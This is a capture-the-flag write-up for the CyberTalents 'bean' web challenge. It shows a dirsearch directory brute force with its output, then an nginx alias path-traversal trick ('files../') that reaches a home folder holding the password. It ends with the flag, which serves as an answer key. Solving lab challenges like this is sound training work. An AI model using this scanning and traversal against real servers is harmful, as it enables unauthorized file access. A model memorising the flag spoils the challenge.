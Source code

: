 # CyberTalents
## Web Security

### Challenge Name:
 [*bean*](https://cybertalents.com/challenges/web/bean)
 
### Challenge Description
Come back home Mr Bean .

Link: [http://52.28.216.196/bean/](http://52.28.216.196/bean/)

### Solution
* Use Dirsearch tool to bruteforce directory of 'http://52.28.216.196/bean/' 
```bash
python3 dirsearch.py -u http://52.28.216.196/bean/
[07:27:39] Starting: 
[07:27:42] 200 -  404B  - /bean/%3f/
[07:28:39] 301 -  185B  - /bean/files  ->  http://52.28.216.196/files/
[07:28:39] 200 -    9KB - /bean/files/
[07:28:42] 200 -  404B  - /bean/index.html
```
* Navigate to 'http://52.28.216.196/bean/files/' it opens many files
* If we append '..' at the end of any directory name we can successfully jump to the upper level directory
* Navegate to 'http://52.28.216.196/bean/files../'
* Enter home folder
* You got the password!!


### The Flag
 > FLAG{Nginx_nOt_aLWays_sEcUre_bY_The_waY}
